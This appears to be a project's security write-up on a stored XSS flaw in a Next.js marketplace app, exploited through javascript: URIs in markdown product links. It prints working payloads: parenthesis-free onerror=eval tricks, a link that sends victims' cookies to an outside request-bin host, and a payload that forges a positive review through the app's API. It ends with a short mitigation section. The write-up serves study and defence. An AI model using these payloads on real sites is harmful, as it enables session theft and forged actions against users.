









# Cross-Site Scripting

Cross-site scripting or XSS is a vulnerability that allows an attacker to inject malicious javascript code into the web application which is then served to the victim. The malicious code gets executed on the victim’s browser and can steal confidential information like session ID which is generally stored in the cookies. Below figure shows an example for stored XSS.



A typical XSS vulnerability arises when the website includes the user input taken from their request in the response generated in an unsafe way. Script tags are often used to execute malicious javascript code on the client side when the user input from the request is treated as HTML in the response.
But this project uses the Next.js technology to create the frontend which is served to the users and Next.js auto-escapes all the text that is included in the HTML by the server. In this case, the script tags added to the response will not act like script tags in HTML but rather appear in normal text format as `<script> … </script>`.
This makes it a lot harder for an attacker to discover and exploit the XSS vulnerability in a web application made using modern development technologies like Next.js. Still, there's an attack vector which renders the auto-escaping feature of Next.js ineffective in protecting against an XSS attack. If the web application allows for untrusted user input to be filled in the HTML anchor tag’s href attribute, then the attacker may be able to exploit it to execute malicious javascript by using `javascript:...` syntax which is generally used to perform tasks like redirection, logging or showing animation before taking the user to the clicked link’s URL. Even if the content inside the href attribute of the anchor tag is escaped, it is executed as javascript as long as it starts with the prefix “javascript:”.
The web application created in this project allows for sellers to add description to their products which may also contain links to user manuals, user guides or a tutorial link of the product. To allow sellers to add links to their product’s description, the web application supports markdown syntax `[]()` for adding links. For e.g. If the user wants to enter www.product-user-manual.com to his product’s description, he can write the following in the "Product Description" input box:
"This is a very good product. Check out our \[User Manual](www.product-user-manual.com)".



The server creates an anchor tag upon seeing the pattern \[]() where the text inside [] is added as the children text of the anchor tag and the text inside () is added to the href attribute of the anchor tag.



A malicious seller can add the following payload containing malicious javascript to his product’s description such that, whenever a customer visits his product and clicks on the link, the malicious javascript code is executed:
“This is a very good product. Check out our \[User Manual](javascript:alert(1);)”.
The payload above will not work as intended by the malicious seller because the application won’t be able to properly parse the markdown syntax \[]() since “javascript:alert(1);” contains additional parentheses. To get around this problem, the malicious seller can set the javascript “alert” function as an “onerror” handler which is called every time a javascript exception is created. To create a javascript exception “throw” keyword can be used by the attacker along with an expression which is sent to the “onerror” handler as an argument. The working payload will look like the following:
“This is a very good product. Check out our [User Manual](javascript:{onerror=alert} throw 1)”.
When the victim user clicks on the User Manual link in the product page, he’ll get an alert box as shown below.


From here onwards, we will refer to the malicious seller as the attacker. The alert box contains an additional string “uncaught exception: '' before the expression created using the “throw” keyword. This string is appended by the browser to the expression before passing it to the “onerror” handler. It may cause a problem when the function that the attacker has set as his “onerror” handler doesn’t expect the additional string. The attacker can fix this by throwing an Error object containing the expression he wants to execute as the message parameter to the javascript “eval” function. But to create an Error object, the attacker requires the use of parentheses which are not possible in this case. To get around this problem, the attacker can throw an object with similar properties as an Error object. For example, he can create a payload like:
`javascript:{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}`. Now, the message parameter will be passed to the “eval” function which is a string containing javascript code where some of the characters are hex encoded to be compatible with the situation. The “eval” function will execute whatever javascript code it receives, which is the “alert(1)” function.



Now that the attacker has discovered a working XSS exploitation mechanism, he can construct more dangerous payloads. For example, he can exploit this vulnerability to create a link, which sends the victim user’s browser cookies to the attacker, upon clicking. For this task, he can set up a Requestbin URL similar to earlier and construct a payload such as the following: ```javascript:{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:`fetch\x28'https://enyhbxvu9q4er.x.pipedream.net/?${document.cookie}'\x29\`}```

Let’s say the victim user has some cookies set in the browser such as “secret-cookie” which contains some confidential information.



When the victim user clicks on the link in the product description page, the above javascript code will execute which will send his cookies to the attacker via the Requestbin URL.



The malicious seller can also exploit this vulnerability with the intention to get good ratings on his product by providing a link that, upon clicking by the victim user, posts a positive comment from his account on the product’s page. The payload for that attack may look like the following:

```javascript
javascript:a='{\x22credentials\x22:\x22include\x22,\x22headers\x22:{\x22User-Agent\x22:\x22Mozilla/5.0\x22,\x22Accept\x22:\x22*/*\x22,\x22Accept-Language\x22:\x22en-US,en;q=0.5\x22,\x22content-type\x22:\x22application/json\x22,\x22Sec-Fetch-Dest\x22:\x22empty\x22,\x22Sec-Fetch-Mode\x22:\x22cors\x22,\x22Sec-Fetch-Site\x22:\x22same-origin\x22},\x22referrer\x22:\x22http://192.168.101.145:3000/product/16f0fba5-4bda-4aaa-9711-481d050ae475\x22,\x22body\x22:\x22{\\\x220\\\x22:{\\\x22json\\\x22:{\\\x22productId\\\x22:\\\x2216f0fba5-4bda-4aaa-9711-481d050ae475\\\x22,\\\x22content\\\x22:\\\x22Fantastic product !!\\\x22,\\\x22overallRating\\\x22:5,\\\x22features\\\x22:[],\\\x22tags\\\x22:[],\\\x22media\\\x22:[]}}}\x22,\x22method\x22:\x22POST\x22,\x22mode\x22:\x22cors\x22}';{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:`fetch\x28\x22http://192.168.101.145:3000/api/trpc/product.review.protected.createProductReview?batch=1\x22,JSON.parse\x28a\x29\x29`}
```





To prevent this vulnerability, developers should not allow untrusted user input to be used as the URI in an HTML element in the HTTP response. If this functionality is required and there is no other way to implement it in the application logic, then a whitelist of allowed URIs should be used. An example of a whitelist pattern can be “([http://*]|[https://*])”. This will only allow the URIs that start with http or https to be filled in the “href” attribute of an HTML element.
